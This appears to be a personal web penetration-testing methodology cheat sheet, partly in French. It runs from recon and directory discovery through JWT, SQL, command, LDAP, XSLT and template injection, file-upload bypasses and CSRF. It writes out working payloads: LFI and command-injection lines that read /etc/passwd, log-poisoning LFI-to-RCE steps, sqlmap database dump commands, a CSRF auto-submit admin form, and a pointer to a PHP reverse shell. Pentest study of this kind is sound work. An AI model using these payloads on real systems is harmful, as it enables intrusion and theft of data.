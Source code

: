 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- **ping**  
	`$ ping www.site.com`  
- **whois**  
	`$ whois 'www.site.com'`
	`$ whois <ip>`  
- **google dorks**  
	search for credentials : `"intext:<thetarget> AND intext:@gmail.com AND intext:password"`  
	Tools : FastGoogleDorks, theharvester    
- **DNS**  
	DNS records 
	`$ dig domain.com ANY`
	`PS> nslookup -q=TXT domain.com` 
AXFR transfert zone
- **VHOSTS** : HTTP "Host" header modification or "/etc/hosts" file modification to access potential VHOST 
- **Subdomains enumeration** : $ amass enum -passive -d domain.com -src 
- **Network scan** : $ nmap -p- sV site.com // -A version detection -oA fichier_out  

## Client source code
- **Information** : CMS version ; file disclosure(.js files) ; unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

### URL: 
- **Unprotected references/directory listing** : dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) (unprotected refs such as /admin/, robots.txt, sitemap.xml, etc.)  
- **Backup files** : /dev/, index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp, etc.
- **Full Path Disclosure** [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- **Redirections** : $ curl -v 

### REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**  
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**   


**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :   
TODO 

**GraphQL injection**  
- query={__schema{types{name,fields{name}}}} to enumerate 

**FILE UPLOAD**  
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**  
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**  
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell

